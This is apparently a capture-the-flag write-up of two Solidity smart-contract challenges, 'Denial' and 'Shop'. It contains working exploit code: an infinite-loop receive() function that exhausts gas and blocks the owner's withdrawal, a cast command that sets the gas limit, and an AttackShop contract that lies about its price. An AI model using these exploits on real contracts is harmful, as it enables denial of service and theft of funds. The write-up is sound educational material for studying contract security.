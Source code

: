 The lesson here is that using `call` instead of `send` or `transfer` can introduce vulnerabilities.

With reentrancy, recall the check-effect-interact paradigm (in the `Denial` contract, there is no check for available balances, and the low-level `call`, which allows reentrancy, occurs before the effect of updating balances (classic reentrancy attack setup).

To deny the owner’s withdrawal:

1. deploy an attack contract with fallback function that consumes nearly all the gas
    
    ```
    receive() external payable {        
            while(true){}
        }
    ```

2. `setWithdrawPartner` to be this attack contract
3. call `Denial` contract’s `withdraw()` to confirm that it indeed runs out of gas 

Note that it will still work with sufficiently large amount of gas (2.3M gas and above worked for me), while challenge assumes 1M maximum gas. 

- By default Foundry’s `cast` gave gas limit of 3.4M to withdraw function (so owner still got the drip funds, and was not denied)
- `cast send <challenge_addr> "withdraw()" --gas-limit 1000000` does deny the drip for both parties (out of gas error for both drips)
- Perhaps external `call` is not actually allowed to forward all 100% of the gas available, although I couldn’t find official documentation on this

****
# Shop
Since `price()` of the `Buyer` interface is not actually implemented, it will resort to the definition of our attacker contract 
- It's unsafe to change the state (`price` in this case) based on external, untrusted contracts logic

```solidity
contract AttackShop{        
    IShop public shop;
    uint timesCalled; 

    constructor(address _victim) {
        shop = IShop(_victim);
    }

    function price() external returns (uint) {    
        return shop.isSold() ? 0 : 300;
    }
    function attack() public {        
        shop.buy();                
    }
}
```

